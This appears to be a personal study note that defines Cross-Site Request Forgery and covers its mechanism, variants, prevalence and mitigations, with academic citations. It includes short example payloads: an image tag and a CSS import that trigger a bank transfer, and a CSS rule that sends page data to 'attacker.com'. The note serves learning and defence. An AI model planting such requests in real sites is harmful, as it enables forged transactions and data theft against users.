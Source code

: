 ```yaml
---
ID: 2025-02-03-15:11
tags:
  - "#definition"
  - cyberSecurity
  - clientSideAttacks
  - CSFR
---
```

Also known as XSRF, Confused Deputy, one-click-attack, Session Riding [[(Maes, Heyman, et al., 2009)]]

## Definition

Cross-Site Request Forgery (CSRF) is an attack that forces an authenticated user to perform an unwanted action on a website they are logged in to, without their knowledge or consent
- This is possible exploiting authentication cookies or [[sessions token]] of the victim [[(Tkachenko et al., 2024)]]
- ==Many websites trust requests from an authenticated browser, without checking whether the user actually intended them==

Even if is called Cross-Site Request Forgery, technically the CSRF attack can be executed withing the same domain, due to a [[XSS (cross site scripting)]] vulnerability or when multiple users can host a web site within the same domain (e.g., universities) [[(Maes, Heyman, et al., 2009)]]

### CSRF Mechanism

- The user is logged into a legitimate website (e.g., bank.com) and remains authenticated while browsing the internet[^1]. This website must use implicit authentication
- An attacker tricks the user into visiting *another* malicious website[^2]
- The malicious website executes code that sends an HTTP request to the previous legitimate website (bank.com), exploiting the user's active session. The HTTP request ==will automatically attach the session cookie, therefore the attacker does not have even to know it== (unless [[SameSite cookie]] are activate, which is only true in Chrome by now)
- Since the user's browser is still authenticated, the legitimate website accepts the request as valid, performing the fraudulent action on behalf of the user.

### How can the attacker know what HTTP request to send?

The hacker has to know pretty well the API structure of the target website in order to make the right HTTP request that will, for example, execute an unwanted transaction. This is possible because:
- he is using the website `bank.com` himself, so he can see what API are used
- he has reverse engineered the website's API structure
- he has access to technical documentation of the target website 
- he exploits common pattern such as `POST /update_profile`
- he has access to company documentation, emails, or public discussion forums [[(Felsch, Heiderich, et al., 2015)]]

The attack does not even require a JavaScript snippet to be executed. If the server does not check the type of request, is it technically possible to execute a CSRF using GET request implicitly defined in:

- HTML, via  `<img>`, or `<a>` tags [[(Felsch, Heiderich, et al., 2015)]]

```html
<img src="https://banca.com/transfer?amount=5000&to_account=123456">
```

- CSS, using HTML attributes as source of dynamic values [[(Maes, Heyman, et al., 2009)]]

```css
/* it will execute a GET request with parameters */
div[secret-data] {
    background-image: url("https://attacker.com/log?data="attr(secret-data));
}
```

- using the CSS `@import` statement

```css
@import url("https://banca.com/transfer?amount=5000&to_account=123456");
```

### CSRF variants

**Login CSRF** [[(Trampert, Stock, et al., 2023)]]
The attacker forces the victim to log into the attacker’s account on some service. While this may sound counterintuitive initially, it allows the attacker to track their victim’s activities, e.g., following their search history, since that history is now tied to the attacker’s account.

**Reflected CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a reflected CSRF attack, the injected payload is hosted in a web page *other* than a trusted website page. Thus, a victim is exposed to an attack when he logs on to a trusted website and browse to a different website simultaneously (two browsers tabs are therefore open)

**Stored CSRF** [[(Shahriar, Zulkernine, et al., 2010)]]
In a stored CSRF attack, the payload is present as part of a webpage downloaded from a trusted website. These can be found in blogs, forums, and message boards, due to an XSS vulnerability.

### Risks and consequences

Common CSFR includes:
- changing user's credentials, making the account unusable for the user and stealing his identity
- sending unwanted transactions

### Prevalence

Among 5,000 randomly selected scan targets of HTTP requests by Acunetix in 2020, 36% were found vulnerable to CSRF attacks [[(Ramadan, Osama, et al., 2024)]]

### Mitigation techniques

**SOP (same-origin policy)**
 [[SOP (Same-Origin Policy)]] is the first layer of protection, preventing malicious script to directly read cookies or access the DOM of other websites, but it does not prohibit an attacker to launch any arbitrary request to a trusted website [[(Shahriar, Zulkernine, et al., 2010)]]

**CSRF Token**
Using [[CSRF (cross-site request forgery) token]], which are in essence random values embedded into form fields.
- If the server does not receive the token that expects, the HTTP request is rejected

**Source verification (referrer header)**
Verifying the source of the request (original header) could be a valid mitigation strategy.
- the `referrer` header contains the domain address of a website that initiates a request
- it has been proposed as a solution, but it carries privacy concerns, and therefore is often suppressed by browsers
- The `origin` header is more considerate of privacy but not well supported [[(Pelizzi, Sekar, et al., 2011)]]

**Other mitigation strategies**
- limiting HTTP request methods
- using [[SameSite cookie]] [[(Saleh, Malkawi, et al., 2024)]]
- closing all the tabs except for the one you are using may be an effective mitigation strategy, but
	1. the website you are visiting is vulnerable to XSS, a request may be executed even in the same domain
	2. if you landed on a malicious website *before* reaching the target, malicious HTTP requests may have been hidden and then executed in the background (this can be done with a [[SW (Service Worker)]])

**Whitelisting and blacklisting of domain** [[(Shahriar, Zulkernine, et al., 2010)]]
Cross-origin policies (a whitelist of valid URLs) have been proposed, but:
- manual process that can be badly configured and that is error prone
- not scalable and has to be maintained over time
- stored CSRF are not detectable in this way (e.g., CSRF that leverage on a stored XSS and that are lunched each time a user lands to a specific part of an application)

Other client-side protections from [[(Maes, Heyman, et al., 2009)]]:
- browser extensions and content policies: RequestPolicy, Browser-Enforced Authenticity Protection (BEAP), CSRF Protector, SOMA[^3]
- client-side proxy: RequestRodeo

Usually these countermeasures monitor outgoing requests and incoming responses, and filter out implicit authentication or block cross-domain requests. Cons:
- degrading user experience
- degrading application performance
- fail to protect against GET-based CSRF

**Why not blocking all the cross-domain POST request?**
- sometimes front-end and back-end live in different domains (e.g., `example.com` is a SPA application written in Vue.js ask requests to a PHP back-end which is a completely different application hosted somewhere else)
- some web applications leverage on public APIs
- third-party services (Stripe, for payments, [[OAuth]] or [[OpenID]] for authentication) are used

---

#### See also

There are similarities between CSRF and [[XSS (cross site scripting)]]. While the XSS is a general abuse of a website leading to malicious script execution, CSRF is focused on performing actions on behalf of an unsuspecting user (see [[XSS and CSFR comparison]]).

#### References
- [[(Tkachenko et al., 2024)]]
- Included in literature review, by [[(Onukrane, Skrodelis, et al., 2023)]]
- Unsystematic and short literature review by [[(Farah, Shojol, et al., 2016)]]
- Server-side mitigation tool jCSRF, by [[(Pelizzi, Sekar, et al., 2011)]]
- Attack simulation, by [[(Saleh, Malkawi, et al., 2024)]]
- client-side defense policies, [[(Maes, Heyman, et al., 2009)]]
- server-side proxy, [[(Liu, Shen, et al., 2020)]]
- ML comparison in CSRF,  [[(Ramadan, Osama, et al., 2024)]]
- client-side detection, by [[(Shahriar, Zulkernine, et al., 2010)]]

[^1]: For more about authentication mechanisms and session management, see [[cookie]], [[sessions token]], [[JWT (JSON Web Token)]]

[^2]: This can be done in different forms. For example, via a [[phishing]] email, using malicious embedded image or malicious forms in a website vulnerable to [[XSS (cross site scripting)]], exploiting [[clickjacking]] or [[tabnabbing]] attacks

[^3]: A thorough description of browser policies at [[(Stamm, Sterne, et al., 2010)]]
